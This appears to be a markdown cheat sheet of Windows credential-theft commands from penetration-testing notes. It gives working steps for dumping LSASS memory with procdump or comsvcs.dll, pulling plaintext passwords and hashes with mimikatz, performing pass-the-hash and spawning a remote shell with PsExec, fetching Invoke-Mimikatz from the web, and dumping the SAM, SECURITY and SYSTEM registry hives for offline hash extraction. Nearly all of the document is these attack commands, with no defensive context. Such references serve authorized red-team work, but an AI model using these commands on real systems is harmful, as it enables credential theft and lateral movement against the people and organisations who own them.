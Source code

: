 ```yaml
---
layout: default
title: Windows Credential Extraction
tags:
    - certificates private keys
    - credentials
    - in memory
    - kerberos tickets
    - local security authority subsystem service
    - LSASS
    - mimikatz
    - pass-the-hash
    - passwords
    - procdump
    - windows
---
```

# Windows Credential Extraction
## Mimikatz
### Offline
Dump LSASS
```powershell
procdump.exe -ma lsass.exe <output path>  # use -r flag to avoid reading lsass by dumping a clone
.\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 624 <output path> full  # uses native comsvcs.dll
```
- Alternatively can use task manager (Processes > lsass.exe > Create Dump File)

Extract Passwords
```shell
sekurlsa::minidump <dump path>
sekurlsa::logonpasswords
```

### On Target Machine
Extracting Passwords
```shell
privilege:debug
sekurlsa::logonPasswords
```

Pass-the-Hash
```powershell
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash>  # Hash from previous password extraction
PsExec.exe \\<domain> cmd.exe  # Spawn cmd prompt on given domain
```

### On Target Machine (PowerShell Version) 
Get script onto target machine ([Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1))
```powershell
Invoke-WebRequest -UseBasicParsing <url> -Verbose                               # In-memory
Invoke-WebRequest -UseBasicParsing <url> -OutFile Invoke-Mimikatz.ps1 -Verbose  # Save to disk
```

Extact passwords, etc.
```powershell
Get-Help Invoke-Mimikatz
.\Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -ComputerName
```

## Registry Dump
Dump SAM, SECURITY and SYSTEM registry hives
```powershell
reg.exe save hklm\sam <output path>
reg.exe save hklm\security <output path>
reg.exe save hklm\system <output path>
```

Dump hashes on local machine
```shell
secretsdump.py -sam <sam> -security <security> -system <system> LOCAL  # Impacket
samdump2 <system> <sam>
```
